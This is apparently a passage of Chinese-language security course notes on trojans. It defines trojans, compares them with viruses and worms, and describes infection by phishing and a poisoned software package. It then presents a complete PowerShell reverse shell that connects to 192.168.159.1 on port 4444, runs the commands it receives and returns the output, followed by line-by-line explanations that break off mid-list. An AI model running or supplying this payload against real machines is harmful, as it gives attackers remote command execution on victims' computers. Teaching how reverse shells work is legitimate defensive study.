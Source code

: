 
## 木马概述

### 木马的定义

木马是一种隐藏在看似合法软件中的恶意软件，它在用户不知情的情况下执行未授权的活动。这种名称来源于古希腊的特洛伊木马故事，象征着通过欺骗手段渗透和破坏。

与病毒和蠕虫不同

- 木马将自己伪装成合法的软件或文件, 欺骗用户主动执行它
- 病毒能够自我复制并插入其他程序中, 需要宿主文件来复制和传播
- 蠕虫不需要宿主文件, 可以自我复制和传播, 它们的主要目的是尽可能地复制和传播自身

---

### 木马感染的过程

木马通常通过伪装成合法软件或附件来诱骗用户下载和执行。一旦激活，它们可以执行各种恶意活动，如窃取数据、监控用户活动或创建后门

> 钓鱼邮件, WallpaperEngine投毒

---

### 木马示例

远程访问木马(RAT - Remote Access Trojan) 是一种允许攻击者远程控制受感染计算机的恶意软件

传统的防火墙设计通常认为出站连接(由内部网络向外部网络发起的连接)是安全的, 而外部对内部网络的直接访问可能是危险的; RAT 通常使用反向连接使得受感染主机主动连接攻击者服务器来绕过防火墙在这方面的防护

可以使用 PowerShell 实现

```powershell
# 创建一个 TCP 客户端对象, 尝试连接到 192.168.159.1 的 4444 端口
$client = New-Object System.Net.Sockets.TCPClient("192.168.159.1", 4444);
# 从 TCP 客户端对象中获取流对象, 用于接收和发送数据
$stream = $client.GetStream();
# 创建一个64KB的字节数组, 用于接收数据(每个字节都是0)
[byte[]]$bytes = 0..65535 | % { 0 };

# 持续从网络流中读取数据
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    # 将字节数组转换为字符串
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    # 执行字符串中的命令, 并将结果转换为字符串
    $sendback = (iex $data 2>&1 | Out-String );
    # 将执行结果和一个提示符附加到输出中
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    # 将输出字符串转换为字节
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    # 将字节写入网络流中
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    # 刷新网络流
    $stream.Flush();
}
# 在完成通信后关闭TCP连接
$client.Close();

```
- `[byte[]]$bytes = 0..65535 | % { 0 }`
  - `0..65535`: 创建了一个包含从0到65535的整数序列
  - `% { 0 }`: PowerShell中的ForEach-Object命令的简短写法  
    对序列中的每个元素执行括号内的操作(返回0)
- `$sendback = (iex $data 2>&1 | Out-String )`
  - `2>&1`: 在PowerShell中，2 表示标准错误流(stderr) ，1 表示标准输出流(stdout)   
    `2>&1` 表示将标准错误流重定向到标准输出流, 这意味着命令的输出和错误都会被捕获并重定向为字符串到 `$sendback`
- `$stream.Write($sendbyte,0,$sendbyte.Length)`